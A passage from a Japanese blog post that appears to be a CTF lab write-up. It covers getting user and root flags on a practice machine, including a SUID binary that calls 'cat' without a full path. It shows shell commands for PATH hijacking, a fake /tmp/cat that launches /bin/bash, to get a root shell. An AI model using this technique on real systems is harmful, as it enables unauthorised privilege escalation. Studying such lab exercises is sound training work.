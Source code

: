 実行するとidを聞かれ、hogeと入力すると出力結果には、`cat: /root/reports/hoge: No such file or directory` と表示されていることがわかります。

つまり、このファイルは `/root/reports/` 入力値のファイルを `cat` していることがわかります。

設問の解答としては、`cat`になります。

### user.txtの取得

`user.txt` は既に `/home/robert/` 配下に存在しているのでその中身を取得すればよいです。

### root.txtの取得

`/usr/bin/bugtrancker` は `root` ユーザとして実行される。
`cat` を自分の作成したファイルを呼び出したい。
そこで、 `/tmp` 配下に `cat` ファイルを作成し、

```sh
cd /tmp
touch cat
chmod +x cat
```

また、 `cat` ファイルの中身に `/bin/bash` を書き込みます。

```sh
echo "/bin/bash" > cat
export PATH="/tmp:$PATH"
```

これにより、`/usr/bin/bugtracker`を実行し、 `whoami` を実行すると `root` ユーザでシェルが立ち上がっているのが確認できます。

<img src="/images/20230425a/image_11.png" alt="" width="338" height="197" loading="lazy">

あとは `/root` 配下のフラグを提出すれば完了です。

## まとめ

今回は権限昇格がポイントでした。

権限昇格の部分で非常に詰まりました。

TIER2以降では権限昇格は必要な知識なので、しっかり使えるようになることが大切だと感じました。

明日の記事は、渡邉さんの[Pulumiで始めるIaC入門](/articles/20230426a/)です。

[^1]: https://qiita.com/kasei-san/items/3edb52359ff288d2f435
[^2]: https://eng-entrance.com/linux-permission-suid
